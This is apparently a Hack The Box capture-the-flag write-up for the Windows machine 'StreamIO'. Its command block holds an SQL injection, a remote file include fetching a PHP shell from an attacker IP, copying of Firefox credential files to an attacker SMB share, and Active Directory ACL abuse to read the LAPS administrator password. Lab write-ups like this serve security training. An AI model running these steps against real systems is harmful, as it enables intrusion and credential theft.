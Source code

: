 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)
- **Exploits Used:**  
  - SQL Injection (stacked queries) on `/search.php` 🐍  
  - Remote File Include via `debug` parameter for RCE 📝  
  - MSSQL xp_dirtree for Net‑NTLMv2 capture (dead end) 🔒  
  - PHP credential harvesting (db_user / db_admin) 🗄️  
  - Hash‑cracking (MD5) with RockYou 🔑  
  - WebShell → Reverse shell with `nc64.exe` 🖥️  
  - Local enumeration → Firefox profile dump & Firepwd 🔍  
  - BloodHound + ADACL abuse → LAPS retrieval 🔐  
- **Open Ports (relevant):**  
  - [HTTP](https://developer.mozilla.org/en-US/docs/Web/HTTP) 80/tcp  
  - [HTTPS](https://developer.mozilla.org/en-US/docs/Web/HTTP/Overview) 443/tcp  
  - SMB 445/tcp  
  - WinRM 5985/tcp  

---

## TLDR 🚀
1. **SQLi** on `watch.streamio.htb/search.php` finds injection via stacked queries.  
2. **RFI** on `streamio.htb/admin/?debug=` includes remote PHP, yielding a reverse shell as **yoshihide**.  
3. **Dump** main DB tables → **MD5** hashes → crack for **yoshihide**, **nikk37**, etc.  
4. **Login** to `streamio.htb/login.php` with cracked creds → **nikk37** shell via Evil‑WinRM.  
5. **Extract** Firefox `logins.json` + `key4.db` → Firepwd → **JDgodd** Slack creds.  
6. **BloodHound** (as JDgodd) → abuse Core Staff ACL → read **LAPS** from DC → Administrator shell.  

---

## Tools 🛠️
- **nmap** – port & service enumeration  
- **wfuzz**, **feroxbuster** – vhost & directory discovery  
- **Burp Suite** – manual SQLi & RFI testing  
- **sqlmap** – confirm SQLi injection point  
- **curl** – test HTTP methods & include payloads  
- **nc64.exe** – Windows reverse shell payload  
- **Responder** – Net‑NTLMv2 capture (enumeration step)  
- **hashcat** – MD5 hash cracking (`-m 0`)  
- **evil-winrm** – remote PowerShell shell  
- **sqlcmd** – on‑box MSSQL querying  
- **PowerView.ps1** – AD ACL & group manipulation  
- **firepwd.py** – Firefox password decryption  
- **bloodhound-python** + BloodHound GUI – AD enumeration and ACL discovery  

---

## Commands to Solve Box 📝

```bash
# 1. Confirm SQLi on search.php
curl -k -d "q=test' WAITFOR DELAY '0:0:5'--" https://watch.streamio.htb/search.php

# 2. RFI to include remote PHP (master.php)
curl -k -X POST "http://streamio.htb/admin/?debug=master.php" \
     -d "include=http://10.10.14.6/shell.php"

# 3. Reverse shell listener
nc -lvnp 443

# 4. Crack main DB hashes
hashcat -m 0 user-passwords rockyou.txt --user

# 5. Evil‑WinRM as nikk37
evil-winrm -i 10.10.11.158 -u nikk37 -p 'get_dem_girls2@yahoo.com'

# 6. Exfil Firefox creds
# On host: smbserver.py share . -user oxdf -pass oxdf -smb2support
# On box:
net use \\10.10.14.6\share /u:oxdf oxdf
copy %APPDATA%\mozilla\Firefox\Profiles\*.default-release\{key4.db,logins.json} \\10.10.14.6\share\

# 7. Decrypt with Firepwd
firepwd.py key4.db logins.json

# 8. BloodHound collect as JDgodd
bloodhound-python -c All -u JDgodd -p 'password@12' -d streamio.htb -ns 10.10.11.158 --zip

# 9. Abuse Core Staff ACL & read LAPS
# On box via Evil-WinRM (JDgodd):
Import-Module .\PowerView.ps1
$pass=ConvertTo-SecureString 'password@12' -AsPlainText -Force
$cred=New-Object PSCredential 'streamio.htb\JDgodd',$pass
Add-DomainObjectAcl -Credential $cred -TargetIdentity "Core Staff" -PrincipalIdentity "streamio\JDgodd"
Add-DomainGroupMember -Credential $cred -Identity "Core Staff" -Members "streamio\JDgodd"
Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd -Credential $cred

# 10. Administrator shell via LAPS
evil-winrm -i 10.10.11.158 -u Administrator -p '-Z4I/T1W0%+4nF'
```

---

## Actions Learned 💡
- Craft **stacked‑query** SQL injection in MSSQL 🐍  
- Achieve **RCE** via PHP file‑include debugging endpoint 🚨  
- Use **sqlcmd** on Windows to query internal DBs 🗄️  
- Extract & **crack** MD5 hashes en masse with hashcat 🔑  
- Dump **Firefox** saved credentials (key4.db + logins.json) → Firepwd 🔐  
- Leverage **BloodHound** & **PowerView** to abuse AD ACLs 🧩  
- Read **LAPS** password from computer object for SYSTEM 🤖  

---

## References 📚
- Stack‑based SQLi in MSSQL:  
  – https://portswigger.net/web-security/sql-injection/mysql/stacked-queries  
- PHP RFI via `php://filter`:  
  – https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion  
- Firepwd (Firefox decrypt):  
  – https://github.com/AndreMiras/pyfirepwd  
- PowerView & AD ACL abuse:  
  – https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon  
- LAPS enumeration & crackmapexec:  
  – https://github.com/byt3bl33d3r/CrackMapExec/wiki/LAPS-module  